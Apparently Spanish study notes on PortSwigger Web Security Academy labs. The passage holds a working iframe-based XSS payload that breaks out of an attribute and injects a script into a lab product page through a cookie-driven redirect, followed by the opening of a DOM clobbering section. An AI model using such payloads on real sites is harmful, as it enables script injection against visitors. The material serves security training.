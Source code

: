 > Con la comilla simple escapamos del contexto del string y con el símbolo del menor cerramos la etiqueta 'a', lo cual nos permite insertar una etiqueta.

![](/img2/Pasted%20image%2020250810204517.png)

> Para que el XSS sea válido necesitamos hacer una redirección de la víctima para que se interprete la cookie de sesión modificada.

- Injection

```html
<iframe src="https://0a0a00c4048f4fc7809826ff00510060.web-security-academy.net/product?productId=4&'><script>print()</script>" onload="this.contentWindow.location=https://0a0a00c4048f4fc7809826ff00510060.web-security-academy.net/">
```

## XSS mediante clobbering en el DOM || Exploiting DOM clobbering to enable XSS

![](/img2/Pasted%20image%2020250811200752.png)

> Al recargar la web se ejecuta un script en el cual vemos que en una parte se está insertando una imagen. El script almacena la etiqueta con el id 'defaultAvatar' e inserta el contenido de 'avatar' en la imagen.
